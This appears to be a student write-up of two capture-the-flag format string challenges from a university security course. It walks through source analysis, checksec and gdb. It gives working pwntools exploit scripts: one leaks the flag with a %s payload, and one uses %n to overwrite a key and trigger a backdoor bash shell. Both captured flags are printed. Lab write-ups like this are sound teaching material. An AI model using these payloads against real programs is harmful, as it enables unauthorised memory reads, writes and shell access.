





# Format Strings

##First Flag

###File Analysis

As good practice, we start off by investigating what we're being given. Therefore we be analysing what's inside "_main.c_":

Looking inside the code we can see that it:

-Creates an array "_flag_" accessibable throughout the file whose size is given with _FLAG_BUFFER_SIZE_, which is 40.

```C
#define FLAG_BUFFER_SIZE 40 

char flag[FLAG_BUFFER_SIZE]; // file size is 40!
```

- Stores the _flag.txt_ content inside of the flag array.

```C
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}```

-Reads 32 bytes of _user input_, stores inside of the character array _buffer_ and then prints it.

```C

        char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```
-An _if_ statement that executes different messages in case we achieved in getting the flag or not.

```C
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```
###Execution Analysis

We will now be analysing how _main.c_ behaviour works on _program_ (which is _main.c_ compilled) with the command:

```bash
checksec --file=program
```



We can see here that here that the binaries aren't randomize(is not a _PIE_, Position-Independent Executable), but there are canaries, which prevents buffer overflow attacks as they will be detected

Using that knowlegde, we can assume that we are going to use a _format string attack_ as we have a _printf_ that prints an input stored in a 32 byte buffer. 

When we run the program, whenever the function _load___flag_ it will put the flag into the the buffer which, as a global variable, will be stored in the heap. Using _dbg_ we can find out the memory address where the function return address. We will run in the console 
```Bash
gdb program
p load_flag # 
```



So we now know that the return address is **_0x8049256_**.

We will now prepare the payload by making some changes to the given __exploit_example.py__.

```python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s" //transforms it into a string format

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()
```



Thus, the flag we get is **flag{a36ac6c2b6ecee59b102cf406c2e354d}**!

##Second Flag

Yet again, we are going to start off by running:

```bash
checksec --file=program
```




As with the other program, we can there are cannaries and it is not a PIE.

As such we are going to analyse the behaviour of main.c! The main  difference is:

```C
if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else 
```
We can see that in this case, if the _key_ value is **0xbeef** then a bash is activated and we have access to the server, allowing us to view the contents of *flag.txt*. Therefore, we must manipulate the value of *key* (which is allocated in the heap as it a global variable), and we can use a format string attack through *'%n'*. But first we must know the address of *key*.

```bash
gdb program
p &key
```



We can see that address of *key* is: **0x804b324**. Now we must convert 0xbeef to string format, which is 48879. Using this information we now alter the used the previous flag exploit by writting 48875 (48879 - 4) '%n'. So we get:

```Python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)


p.sendline(b"\x24\xb3\x04\x08%.48875x%1$n")
p.interactive()
```


Thus the flag is: **flag{6ac96371637acd9b27d93579d9cbb888}**
